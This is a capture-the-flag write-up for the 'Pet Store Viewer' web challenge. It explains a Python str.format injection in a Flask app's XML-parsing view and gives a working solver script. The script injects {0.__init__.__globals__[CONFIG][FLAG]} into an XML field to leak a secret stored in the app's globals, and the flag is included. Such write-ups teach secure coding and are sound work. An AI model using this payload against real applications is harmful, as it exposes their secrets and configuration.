


# Pet Store Viewer [8 Solves]

## Description

> Explore our online pet store for adorable companions – from playful kittens to charming chickens. Find your perfect pet today. Buy now and bring home a new friend!
>
> Connect here: `13.215.209.185:8222`
>
> Attachments: petstore.zip

## Source Code

<details><summary>Attachment file tree</summary>

```console
$ tree app
app
├── build-docker.sh
├── challenges
│   ├── app.py
│   ├── requirements.txt
│   ├── static
│   │   ├── css
│   │   │   ├── style.css
│   │   │   └── view.css
│   │   ├── images
│   │   │   ├── oops.jpg
│   │   │   ├── pet01.webp
│   │   │   ├── pet02.webp
│   │   │   ├── pet03.webp
│   │   │   ├── pet04.webp
│   │   │   ├── pet05.webp
│   │   │   ├── pet06.webp
│   │   │   ├── pet07.webp
│   │   │   ├── pet08.webp
│   │   │   ├── pet09.webp
│   │   │   └── pet10.webp
│   │   └── js
│   │       └── index.js
│   └── templates
│       ├── error.html
│       ├── index.html
│       └── view.html
├── Dockerfile
├── flag.txt
└── store.xml

7 directories, 23 files
```

</details>

## Flag

wgmy{74ba870f1a4873a3ba238e0bf6fa9027}

## TL;DR

- Python Format String Placeholder Injection

## Solution





Accessing the given URL to view the Web application, it had a functionality that the URL path `/` is to display a list of pets and the URL path `/view` is to show details of a specific pet.
In the `/view` path, I found that XML was input using a query parameter named `xml`.

In this challenge, since the source code is provided, I will take a look.

```python
# app.py

from flask import Flask, render_template, url_for ,request
import os
import defusedxml.ElementTree as ET

app = Flask(__name__)

CONFIG = {
    "SECRET_KEY" : os.urandom(24),
    "FLAG" : open("/flag.txt").read()
}
```

I extracted the provided attachment and examined the `app.py` file, it uses Python Flask.
Additionally, I found that the flag is stored in the Python `CONFIG` dict.

The application has two endpoints: [GET] `/` and [GET] `/view`. I will take a closer look at the `/view` endpoint.

```python
# app.py

class PetDetails:
    def __init__(self, name, price, description, image_path, gender, size):
        self.name = name
        self.price = price
        self.description = description
        self.image_path = image_path
        self.gender = gender
        self.size = size

def parse_xml(xml):
    try:
        tree = ET.fromstring(xml)
        name = tree.find("item")[0].text
        price = float(tree.find("item")[1].text)
        description = tree.find("item")[2].text
        image_path = tree.find("item")[3].text
        gender = tree.find("item")[4].text
        size = tree.find("item")[5].text
        details = PetDetails(name, price, description, image_path, gender, size)
        app.logger.info(globals())
        combined_items = (
            "{0.name};"
            + str(details.price)
            + ";{0.description};"
            + details.image_path
            + ";{0.gender};{0.size}"
        ).format(details)
        app.logger.info("[+] debug " + "=" * 10)
        app.logger.info(combined_items)
        app.logger.info("[+] debug end" + "=" * 10)
        return [combined_items]
    except Exception as e:
        app.logger.info("Malformed xml, skipping")
        app.logger.info(traceback.format_exc())
        return []

@app.route("/view")
def view():
    xml = request.args.get("xml")
    list_results = parse_xml(xml)
    if list_results:
        items = list_results[0].split(";")
        return render_template("view.html", value=items)
    else:
        return render_template("error.html")
```

On the server side, it parses the XML string sent by the client in the query parameter named `xml` using the `parse_xml` function.
Then, It uses the parsed information to generate and return HTML.

```python
        combined_items = (
            "{0.name};"
            + str(details.price)
            + ";{0.description};"
            + details.image_path  # here
            + ";{0.gender};{0.size}"
        ).format(details)
```

I found that the `details.image_path` is being concatenated without using a Format String placeholder like `{0.name}`, and it's directly concatenated.
Since there's potential for Format String injection here, it seems possible to get the `CONFIG` dictionary.

Useful references for Python format string:

- [Vulnerability in str.format() in Python - GeeksforGeeks](https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/)
- [Be Careful with Python's New-Style String Format \| Armin Ronacher's Thoughts and Writings](https://lucumr.pocoo.org/2016/12/29/careful-with-str-format/)

I implemented `solver.py` to send an XML string that get the flag from the `CONFIG` dict.

```python
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
s.verify = False


XML = """\
<?xml version="1.0" encoding="utf-8"?>
<store>
    <item>
        <name>value0</name>
        <price>0.1</price>
        <description>value2</description>
        <image_path>{0.__init__.__globals__[CONFIG][FLAG]}</image_path>
        <gender>value4</gender>
        <size>value5</size>
    </item>
</store>
""".strip()

BASE_URL = "http://localhost:8222"
# BASE_URL = "http://13.229.222.125:33099"


def main():
    res = s.get(
        f"{BASE_URL}/view",
        params={"xml": XML.replace("\n", "")},
    )

    print(res.text)


if __name__ == "__main__":
    main()
```

Result

```console
$ python3 solver.py
...
            
```

I executed solver.py against the Challenge server and could get the flag.
The output is URL-encoded, with `{` represented as `%7B`.
Therefore, decoding this URL-encoded string, the flag is wgmy{74ba870f1a4873a3ba238e0bf6fa9027}.
